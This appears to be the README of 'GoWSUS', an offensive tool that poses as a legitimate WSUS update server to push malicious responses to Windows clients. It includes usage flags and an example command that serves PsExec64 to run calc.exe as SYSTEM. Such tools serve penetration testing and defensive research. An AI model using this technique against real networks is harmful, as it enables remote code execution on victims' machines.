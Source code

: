 # GoWSUS
It is intended to impersonate a legitimate WSUS server and send malicious responses.

## TL;DR
Code re-used from:
- https://github.com/GoSecure/pywsus

## Usage
```
Usage:
gowsus.exe -H HOST -p PORT -e EXECUTABLE -c COMMAND

Options:
 -H The listening adress. (default "127.0.0.1")
 -p The listening port. (default "8530")
 -e The Microsoft signed executable returned to the client.
 -c The parameters for the current executable.

Example:
gowsus.exe -H X.X.X.X -p 8530 -e PsExec64.exe -c "-accepteula -s calc.exe"
```